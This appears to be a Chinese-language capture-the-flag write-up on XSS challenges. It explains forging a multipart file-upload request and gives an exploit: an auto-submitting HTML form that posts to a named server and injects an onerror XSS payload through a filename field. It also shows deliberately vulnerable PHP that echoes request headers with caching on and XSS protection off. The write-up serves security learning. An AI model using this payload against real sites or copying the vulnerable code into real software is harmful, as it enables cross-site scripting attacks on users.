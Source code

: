 由于所有题目的要求都是非交互，所以在这个题目最基本的要求上就违背了同源策略，通过js来实现的文件上传本身就是跨源传数据，而唯一的办法只能是自动提交表单。

但是文件上传这一部分是必须人来交互的，如果直接提交一个文件的话，服务端收到的`$_FILE`变量就是一个空数组，所以我们没办法以任何方式来传文件，但幸运的是，只需要服务端读取到一部分变量就可以了（即使是这样，也只有ie才能伪造）。

[https://www.exploresecurity.com/a-tricky-case-of-xss/](https://www.exploresecurity.com/a-tricky-case-of-xss/)

逻辑上差不多就是通过设置enctype这个属性，然后伪造一个接近文件上传的请求。

exp
```
<form name="xss" method="post" action="http://ec2-13-58-146-2.us-east-2.compute.amazonaws.com/xss1.php" enctype="multipart/form-data">
<textarea name='fileToUpload"; filename="test.<img src=a onerror=alert(1)>.png'>
File Contents Didn't Matter Here
</textarea>
<input name="action" value="fileupload"/>
<input type="submit" name="" value="" size="0" />
</form>
<script>document.xss.submit();</script>
```

# 02 getallheaders() #

```
<?php
header('Pragma: cache');
header("Cache-Control: max-age=".(60*60*24*100)); 
header("X-XSS-Protection: 0");
?>
<html>
<head>
<meta charset=utf-8>
<head>
<body>
<?php
if(isset($_SERVER['HTTP_REFERER'])) 
{
echo "Bad Referrer!";
}
else
{
foreach (getallheaders() as $name => $value) {
    echo "$name: $value\n";
}
}
?>
</body>
</html>
```

我觉得这个题目比较难，而且利用思路也很有趣，这题是我朋友教我的@lightless，主要问题在于页面开启了缓存。
```
header('Pragma: cache');
header("Cache-Control: max-age=".(60*60*24*100)); 
```
